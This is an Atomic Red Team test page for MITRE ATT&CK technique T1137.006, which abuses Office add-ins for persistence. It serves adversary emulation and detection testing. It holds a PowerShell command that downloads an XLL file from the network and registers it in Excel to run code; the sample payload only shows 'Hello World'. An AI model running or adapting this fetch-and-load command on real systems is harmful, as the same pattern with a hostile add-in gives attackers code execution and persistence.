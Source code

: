 # T1137.006 - Add-ins
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1137/006)
<blockquote>Adversaries may abuse Microsoft Office add-ins to obtain persistence on a compromised system. Office add-ins can be used to add functionality to Office programs. (Citation: Microsoft Office Add-ins) There are different types of add-ins that can be used by the various Office products; including Word/Excel add-in Libraries (WLL/XLL), VBA add-ins, Office Component Object Model (COM) add-ins, automation add-ins, VBA Editor (VBE), Visual Studio Tools for Office (VSTO) add-ins, and Outlook add-ins. (Citation: MRWLabs Office Persistence Add-ins)(Citation: FireEye Mail CDS 2018)

Add-ins can be used to obtain persistence because they can be set to execute code when an Office application starts. </blockquote>

## Atomic Tests

- [Atomic Test #1 - Code Executed Via Excel Add-in File (Xll)](#atomic-test-1---code-executed-via-excel-add-in-file-xll)


<br/>

## Atomic Test #1 - Code Executed Via Excel Add-in File (Xll)
Downloads a XLL file and loads it using the excel add-ins library.
This causes excel to display the message "Hello World"
Source of XLL - https://github.com/edparcell/HelloWorldXll

**Supported Platforms:** Windows


**auto_generated_guid:** 441b1a0f-a771-428a-8af0-e99e4698cda3





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| xll_url | url of the file HelloWorldXll.xll | Url | https://github.com/redcanaryco/atomic-red-team/raw/master/atomics/T1137.006/bin/HelloWorldXll.xll|
| local_file | name of the xll file | Path | $env:tmp&#92;HelloWorldXll.xll|


#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 


```powershell
powershell -c "iwr -URI '#{xll_url}' -o '#{local_file}'; IEX ((new-object -ComObject excel.application).RegisterXLL('$env:tmp\HelloWorldXll.xll'))"
```






<br/>
